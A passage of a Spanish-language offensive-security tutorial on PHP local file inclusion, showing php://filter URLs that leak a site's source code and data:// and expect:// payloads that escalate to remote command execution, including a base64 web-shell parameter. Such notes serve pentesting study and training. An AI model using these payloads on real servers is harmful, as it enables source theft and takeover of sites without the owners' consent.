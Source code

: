 ```http
https://myshop.com/image?filename=php://filter/convert.base64-encode/resource=index.php
```

Otra opción para que el código PHP, no sea interpretado, es aplicar un método criptográfico sencillo, por ejemplo Rot13:

```php
php://filter/read=string.rot13/resource=index.php
```

```http
https://myshop.com/image?filename=php://filter/read=string.rot13/resource=index.php
```

Existen muchas más opciones para evitar esto, otra es iconv:

```
php://filter/convert.iconv.utf-8.utf-16/resource=index.php
```

### De LFI a RCE

Con el uso de determinados wrappers de PHP, podemos ejecutar código en el servidor, si encontramos un parámetro vulnerable a LFI. Los wrappers son estos:

* `data://`&#x20;

```http
http://website.com/index.php?page=data:text/plain;,<?php system('whoami'); ?>
```

{% hint style="info" %}
Existen webs que no permitirán o en las que no será exitoso el ejecutar el código PHP de esta manera, por lo que podemos convertirlo a Base64 para que sea más sencillo:

```http
http://website.com/index.php?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTsgPz4=
```

Una forma más sencilla y cómoda de ejecutar comandos mediante Base64 es mediante un parámetro (El codigo en Base64 está URL-encoded ya que da problemas):

<pre class="language-http"><code class="lang-http"><strong>http://website.com/index.php?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2B&#x26;cmd=whoami
</strong></code></pre>
{% endhint %}

* `expect://`

```http
http://website.com/index.php?page=expect://whoami
```

### PHP Filters

Cuando codificamos y decodificamos un valor en PHP, van quedando restos de la codificación, con los cuales podemos construir un comando a través de esto:

[https://github.com/synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php\_filter\_chain\_generator)
